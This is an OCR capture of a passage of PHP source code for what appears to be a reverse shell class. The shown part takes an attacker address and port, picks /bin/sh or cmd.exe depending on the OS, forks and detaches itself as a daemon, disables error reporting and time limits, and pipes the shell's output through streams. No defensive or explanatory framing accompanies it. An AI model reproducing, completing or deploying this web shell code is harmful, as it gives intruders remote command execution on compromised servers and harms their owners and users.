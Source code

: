 ```
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
```